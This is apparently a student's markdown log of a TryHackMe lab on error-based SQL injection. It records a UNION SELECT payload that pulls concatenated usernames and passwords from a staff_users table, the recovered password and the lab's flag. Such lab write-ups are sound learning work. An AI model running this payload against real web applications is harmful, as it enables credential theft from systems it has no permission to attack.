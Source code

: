 # Level One – Error-Based SQLi (Task 5)

**Date recorded:** 
- 2025-09-23 

**Lab Objective:** 
- Enumerate usernames and passwords from the `staff_users` table using error-based SQLi.

**Payload used:**
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users


markdown
Copy code

**Result:** Retrieved concatenated username:password values from staff_users. 


**Password recovered:** pa$$word  

**Flag Obtained:** THM{SQL_INJECTION_3840}

Notes: Performed in a safe TryHackMe environment. Error-based SQLi allowed enumeration of the table.

**Screenshots:**
![Level 1 Error-Based SQLi](../screenshot/level1/2025-09-23-Error-Based-SQLi.png)




